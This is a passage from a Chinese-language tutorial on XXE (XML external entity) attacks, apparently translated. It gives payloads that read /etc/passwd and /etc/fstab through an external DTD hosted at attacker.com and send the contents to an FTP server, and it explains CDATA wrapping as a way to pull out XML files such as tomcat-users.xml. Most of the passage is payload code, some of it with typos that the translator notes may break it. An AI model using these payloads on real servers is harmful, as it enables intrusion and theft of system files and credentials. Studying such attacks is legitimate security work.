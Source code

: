 您可以通过使用 FTP 来泄露数据。这解决了 http 坏字符的限制。因此，文件无需编码即可传输

要在[http://attacker.com/xxe.dtd上创建的外部dtd](http://attacker.com/xxe.dtd%E4%B8%8A%E5%88%9B%E5%BB%BA%E7%9A%84%E5%A4%96%E9%83%A8dtd)

```plain
<!ENTITY $ file SYSTEM "file:///etc/passwd">
<!ENTITY % req "<!ENTITY abc SYSTEM 'ftp://x.x.x.x:1212/%file; '>">
```

请求 Body

```plain
<?xml version=1.0"?>
<!DOCTYPE foo [
<!ENTITY % dtd SYSTEM "http://attacker.com/xxe.dtd">
%dtd;
%req;
]>
<foo>
  &abc;
</foo>
```

本文到这里已经涵盖了许多不同的技术。现在只剩下一种情况。

> 译者注：上面的原文的 payload 可能存在一些问题，读者需要自行调试下。

## 如果要检索 xml 文件怎么办？

当正在进行红队任务时，你不会止步于仅仅发现漏洞。有时，您需要挖掘更多信息。XML 文件 (例如 tomcat-users.xml) 就是一个需要挖掘的点。但是使用 XXE 检索 xml/dtd 文件时会存在问题。xml 文档内的标签将由解析器解析，并将完全改变其含义，这将导致该攻击不会生效。因此我们需要一种不解析 XML 文档的方法 (应该将其视为纯文本文档)

这就是**CDATA**概念的缘由。

-   **PCDATA** 是将由解析器解析的文本。文本内的标签将被视为标记，并且实体将被扩展。
-   **CDATA** 是*不会* 被解析器解析的文本。文本内的标签**不会**被视为标记，并且实体也不会扩展。

默认情况下，所有内容都是 PCDATA，此关键字指定元素必须包含可解析的数据 - **< , > , &, ‘ , “**

因此，如果您不想要解析您的 XML，请将其包含在 CDATA 中，让我们看看如何做到这一点。

```plain
<?xml version="1.0"?>
<foo>
<bar><![CDATA[<abc>myContent</abc>]]></bar>
</foo>
```

这将会打印**`<abc> myContent </ abc>`**结果。

让我们快速了解如何检索 XML 数据。

## 泄露 XML 文件

创建一个外部 dtd 为

```plain
<!ENTITY % file SYSTEM "file:///etc/fstab">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY content '%start;%file;%end;'>">
```
